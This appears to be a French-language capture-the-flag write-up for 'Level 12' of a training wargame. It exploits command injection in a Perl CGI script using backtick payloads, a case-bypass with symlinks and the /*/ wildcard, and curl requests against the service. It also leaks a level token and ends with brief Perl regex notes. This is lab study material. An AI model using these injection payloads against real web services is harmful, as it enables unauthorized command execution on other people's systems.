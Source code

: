 LEVEL 12

------------------------------------------------------------------------------------------------------------------------

    find . -user level12 2> /dev/null | grep -v proc
                 flag12
    find . -perm /u=s,g=s 2> /dev/null | grep -v proc
    find . -type f -user flag12 -o -user level12
    find . -maxdepth 1 -name "*string*" -print

* Recherches


    On a un CGI en Perl qui prend 2 params : x et y 

    http://192.168.1.21:4646/level12.pl?x=ifconfig&y=netstat

    Les logs du serveur Apache sont visible ici :
        /var/log/apache2

    La faille est à coup sûr ici : injection de commande
        @output = `egrep "^$xx" /tmp/x 2>&1`;

    On upload le fichier pour tester sur l'host

    $xx =~ tr/a-z/A-Z/; --> majusucule
    $xx =~ s/\s.*//;    --> prend tout avant le 1er espace

    Le 2&>1 inintéressant

    Le foreach est useless, le but à priori c'est de parvenir à match la regex avec un fichier contenant getflag

    Pour matcher le egrep, il faut donc un string en uppercase

    Le cgi ne print pas l'output donc à aucun moment on peut avoir le flag dans la réponse http

    On va passer par un fichier contenant le script, Linux étant case sensitive, un getflag dans l'url qui serait capitalize ne fonctionnera pas

    On va chercher à injecter un script executant getflag
    On peut rediriger car, sauf erreur, log insuffisant dans les log d'apache

    Ce que fait cette ligne est secondaire @output = `egrep "^$xx" /tmp/x 2>&1`; car tant qu'on peut y injecter notre code, on l'isole au milieu et ça suffit

    On peut tenter ce genre de contournement
    ln -s /bin/getflag /tmp/newBin
    $ /*/newBin


    Donc on aura un fichier (en majuscule) : FILE pour matcher le 

    echo '"/bin/getflag" > /tmp/x' > FILE
    curl 127.0.0.1:4646/level12.pl?x='`/*/FILE`'

    Le wildcart est requis pour éviter d'y mettre un string qui va être uppercase par le cgi et donc path vers le FILE non trouvable
    Le /*/ va chercher partout, notamment dans /tmp

    cat /tmp/x => Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr

    su level13 g1qKMiRpXf53AWhDaU7FEkczr

    Au cas où ça ne fonctionne pas (pourtant début janvier ça passait --'), on peut se baser sur les log d'apache
    
    ln -s /bin/getflag /tmp/FLAG
    /*/FLAG -> check
    curl 127.0.0.1:4646/level12.pl?x=`/*/FLAG>&2` (Btw, getflag print en stderr)
    curl 127.0.0.1:4646/level12.pl?x=`%2F%2A%2FFLAG%3E%262`
    Ou : 192.168.1.4:4646/level12.pl?x=`%2F%2A%2FFLAG%3E%262`
    tail /var/log/apache2/error.log

* Infosr

------------------------------------------------------------------------------------------------------------------------

• REGEX

Le symbole ^ : 	Indique le début de la chaîne - exemple ^chat reconnaît une ligne qui commence par chat

https://perldoc.perl.org/perlrecharclass


\s = Matches any whitespace character (spaces, tabs, line breaks).
. = Matches any character except linebreaks. Equivalent to [^\n\r].
* = Matches 0 or more of the preceding token.

• $foo is a scalar variable. It can hold a single value which can be a string, numeric, etc.

• @foo is an array. Arrays can hold multiple values. You can access these values using an index. For example $foo[0] is the first element of the array and $foo[1] is the second element of the array, etc. (Arrays usually start with zero).

• %foo is a hash, this is like an array because it can hold more than one value, but hashes are keyed arrays. For example, I have a password hash called %password. This is keyed by the user name and the values are the user's password. For example: